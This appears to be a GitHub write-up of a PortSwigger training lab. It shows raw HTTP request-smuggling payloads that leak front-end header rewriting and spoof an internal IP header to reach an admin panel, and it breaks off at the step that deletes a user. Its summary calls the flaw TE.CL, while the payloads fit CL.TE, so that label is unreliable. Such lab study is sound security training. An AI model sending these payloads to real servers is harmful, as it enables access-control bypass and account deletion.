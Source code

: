 # Exploiting HTTP - request smuggling to reveal front-end request rewriting

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to reveal front-end request rewriting
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/9028757aac9d890a1120a8eafe6d820ba114de27c132ee12c8ae8525c9378c40?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-reveal-front-end-request-rewriting

## 🔍 Summary
This lab exploited a **TE.CL request smuggling** flaw where the front-end ignores chunked encoding but the back-end processes it. By smuggling an extra request, we first leaked the internal IP header (`X-abcdef-Ip`), then spoofed it as `127.0.0.1` to access `/admin` and delete the user `carlos`.

## 🛠 Steps to Solve
1. Browse to `/admin` and observe that the admin panel can only be loaded from `127.0.0.1`.
2. Use the site's search function and observe that it reflects the value of the `search` parameter.
3. Use **Burp Repeater** to issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 124
   Transfer-Encoding: chunked

   0

   POST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 200
   Connection: close

   search=test
   ```
4. The second response should contain "Search results for" followed by the start of a rewritten HTTP request.
5. Make a note of the name of the `X-*-IP` header in the rewritten request, and use it to access the admin panel:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 143
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   X-abcdef-Ip: 127.0.0.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10
   Connection: close

   x=1
   ```
6. Using the previous response as a reference, change the smuggled request URL to delete the user `carlos`:
   ```sh
   POST / HTTP/1.1
   ```